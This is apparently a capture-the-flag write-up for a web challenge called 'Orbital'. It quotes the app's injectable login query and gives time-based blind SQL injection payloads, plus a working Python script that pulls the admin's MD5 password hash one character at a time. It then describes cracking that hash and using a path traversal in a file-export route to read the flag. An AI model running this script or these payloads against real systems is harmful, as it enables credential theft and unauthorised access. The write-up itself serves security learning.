



# Orbital (easy)

This challenge at first gave us some frustrations due to the ammount of effort that needed to be done to solve it.

looking at the app from outside we can see that there is only a login functionality, so as we did in drobots, we took an instant look at the database handler.

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

and again it seems like it is an SQLI but this time it is handled differently. In this challenge the username field is vulnerable to injection but the password is verified in a separate pre-prepared statement. so even if we escaped the first statement the second statement will stand in the way of logging in as the admin user.

in the `entrypoint.sh` file we can see this bash function which is used in the sql statement to create the admin user

```bash 
function genPass() {
    echo -n 'DUMMY_PASSWORD' | md5sum | head -c 32
}
```
it essentially uses the md5 hash of the admin password to store it in the database

in the `util.py` file we can see a function that indicates that the database contains hashed of the passwords 

```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())
```

so if we could somehow leak the password hash of the admin we will be able to recover the password from the hash due to the cryptographic weaknesses of md5

here we started messing a bit with the sql injection point until we realized we can do something like this:

```json
{"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '%';"}
```

the `%` symbol in mysql paired with `LIKE` statement is essentially a wildcard, and since `SLEEP` is a true statement, the server must accepts this whole statement as true and delay the response by % seconds. But due to the `%` sign being a placeholder for format strings in python it made an issue. so we setteled down on using the underscore `_` which maches only one character, but thankfully we know that md5 hashes are 32 bytes long of hex characters. so we can use this statement instead to extract the password hash on character at a time:

```json
{"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '________________________________';"}
```

and once we find a character we replace the underscore with that character. The following is a script to exploit the blind SQLI (not perfect and needed some manual monitoring)

```python
import requests
import time
url = "http://161.35.168.118:32062/api/login"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://104.248.169.177:31116", "Referer": "http://104.248.169.177:31116/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}


charset = "0123456789abcdef"

password = ""
length = 31 - len(password)
while len(password) < 32:
    error = 0
    for i in charset:
        error = 1
        _json={"password": "aaa", "username": "admin\" AND SLEEP(5)  AND password LIKE '"+ password +i+length*"_" +"';"}
        start_time = time.perf_counter()
        x = requests.post(url, headers=headers, json=_json)
        end_time = time.perf_counter()
        
        if x.status_code != 200 and x.status_code != 403:
            print(x.text)
            quit()
        if end_time - start_time >= 5.0:
            error = 0
            password = password + i
            length -= 1
            print(password)
            print("left: " + str(length + 1))
            break
    if error == 1:
        break
```

after we extracted the password hash we used [this](https://md5.gromweb.com/) service to reverse the hash and extract the password



so we logged in as the admin but still there is no flag. Here came the second part of the challenge, an SSRF to extract the flag.

in the `routes.py` file we can find this api route that needs authentication (which we already achieved)

```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

it integrates the variable communicationName (which is mapped to the key 'name' that we should send in the JSON request body) directly into the `send_file` function which allows us to read any file by using path traversal.

so we extract the JWT from the page after authenticating as admin



then we can send a curl request with the path of the flag file which is renamed according to this Docker command in the `Dockerfile`

```Dockerfile
COPY flag.txt /signal_sleuth_firmware
```

so we initiate the curl command and grab the flag



